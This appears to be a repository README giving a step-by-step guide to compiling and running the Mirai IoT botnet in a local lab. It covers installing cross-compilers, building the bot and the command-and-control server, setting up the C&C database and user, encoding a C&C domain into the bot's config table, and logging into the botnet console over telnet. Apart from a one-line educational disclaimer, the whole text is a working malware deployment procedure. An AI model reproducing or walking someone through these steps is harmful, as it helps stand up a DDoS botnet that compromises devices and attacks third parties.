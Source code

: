 # Mirai setup

## What you need:
- Working pihole setup
- Ubuntu / Debian based linux distribution
- Copy of mirai source code

## What we will do
The goal is to setup and run mirai in an local environment.  
But a disclaimer at the beginning: Do not use this to actually attack somebody its only for educational use.
<br><br>

## Setup tools
### First we need to install some packages  

```
sudo apt install gcc golang electric-fence mysql-server mysql-client screen -y
```
<br>

### The next step is to install the cross compilers
```
sudo bash ./tools/compilers.sh
```
To finish the installation put following at the end of /etc/bash.bashrc or ~/.bashrc
```
export PATH=$PATH:/etc/xcompile/armv4l/bin
export PATH=$PATH:/etc/xcompile/armv6l/bin
export PATH=$PATH:/etc/xcompile/i586/bin
export PATH=$PATH:/etc/xcompile/m68k/bin
export PATH=$PATH:/etc/xcompile/mips/bin
export PATH=$PATH:/etc/xcompile/mipsel/bin
export PATH=$PATH:/etc/xcompile/powerpc/bin
export PATH=$PATH:/etc/xcompile/powerpc-440fp/bin
export PATH=$PATH:/etc/xcompile/sh4/bin
export PATH=$PATH:/etc/xcompile/sparc/bin
export PATH=$PATH:/etc/xcompile/armv6l/bin
```
<br>

Now we need to edit /etc/bash.bashrc or ~/.bashrc again. Put the following at the end
```
export PATH=$PATH:/usr/local/go/bin
export GOPATH=$HOME/Documents/go
```
<br>

**Now please restart your bash for those changes to take effect**
<br>

### Now we install the go library's with
```
go get github.com/go-sql-driver/mysql
go get github.com/mattn/go-shellwords
```
<br>

### Now we can compile it for the first time :D
```
bash ./build.sh debug telnet
```
<br>

### Now we need to setup the database.
First of all run and make sure to allow root login and don't forget the password we will need it later:
```
sudo mysql_secure_installation
```
Now run:
```
sudo mysql

Then type:

ALTER USER 'root'@'localhost' IDENTIFIED WITH mysql_native_password BY 'insert_password';
exit;
```
Now test it with:
```
sudo mysql -p

If you see this your installation was successfully:

Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 19
Server version: 5.7.33-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>

Now type 'exit;' again to exit mysql!
```

Now it's time to create the database run:
```
cat ./tools/db.sql | sudo mysql -p
```

The last step of creating the database is to add an cnc user account:
```
sudo mysql -p

Then type:

INSERT INTO users VALUES (NULL, 'insert-mirai-user', 'insert-mirai-pass', 0, 0, 0, 0, -1, 1, 30, '');
```
<br>

### Now we need to change some settings we will begin with the domain.  
You can use whatever domain you like we will register it later using piole.
```
./debug/enc string <your domain>

Exampel output:

root@janick:~/mirai# ./debug/enc string cnc.glowman554.de
XOR'ing 18 bytes of data...
\x41\x4C\x41\x0C\x45\x4E\x4D\x55\x4F\x43\x4C\x17\x17\x16\x0C\x46\x47\x22
```
We need the 18 and '\x41\x4C\x41\x0C\x45\x4E\x4D\x55\x4F\x43\x4C\x17\x17\x16\x0C\x46\x47\x22'
<br>

Now open bot/table.c in your favorite code editor and find the line 
```
add_entry(TABLE_CNC_DOMAIN, "\x41\x4C\x41\x0C\x41\x4A\x43\x4C\x45\x47\x4F\x47\x0C\x41\x4D\x4F\x22", 30);

In my case i need to change it to:

add_entry(TABLE_CNC_DOMAIN, "\x41\x4C\x41\x0C\x45\x4E\x4D\x55\x4F\x43\x4C\x17\x17\x16\x0C\x46\x47\x22", 18);
```

Now open bot/resolv.c favorite code editor and find the line and change the ip to the ip of your pihole installation
```
addr.sin_addr.s_addr = INET_ADDR(8,8,8,8);

In my case i need to change it to:

addr.sin_addr.s_addr = INET_ADDR(192, 168, 178, 114);
```
<br>

### Now we can compile it for the second time :D and copy the prompt.txt file
```
bash ./build.sh debug telnet
cp prompt.txt ./debug/.
```

### Now its time to setup pihole
To do this you need to login into pihole and go to Local DNS/DNS Records and type in the domain you used earlier in this tutorial and the ip of the server where the cnc is supposed to run on. **Don't forget to click on add!**
<br>

### And finlay we can run it!
To run the cnc use:
```
cd debug
screen -S mirai-cnc sudo ./cnc
```
<br>

To run a bot use:
```
cd debug
screen -S mirai-bot sudo ./mirai.dbd
```

To connect to the cnc using telnet use:
```
telnet localhost

You will be asked to login you can do that with the user we inserted earlier into the database it should look something like:

я люблю куриные наггетсы
пользователь: janick
пароль: *********

проверив счета... |
[+] DDOS | Succesfully hijacked connection
[+] DDOS | Masking connection from utmp+wtmp...
[+] DDOS | Hiding from netstat...
[+] DDOS | Removing all traces of LD_PRELOAD...
[+] DDOS | Wiping env libc.poison.so.1
[+] DDOS | Wiping env libc.poison.so.2
[+] DDOS | Wiping env libc.poison.so.3
[+] DDOS | Wiping env libc.poison.so.4
[+] DDOS | Setting up virtual terminal...
[!] Sharing access IS prohibited!
[!] Do NOT share your credentials!
Ready
janick@botnet#
```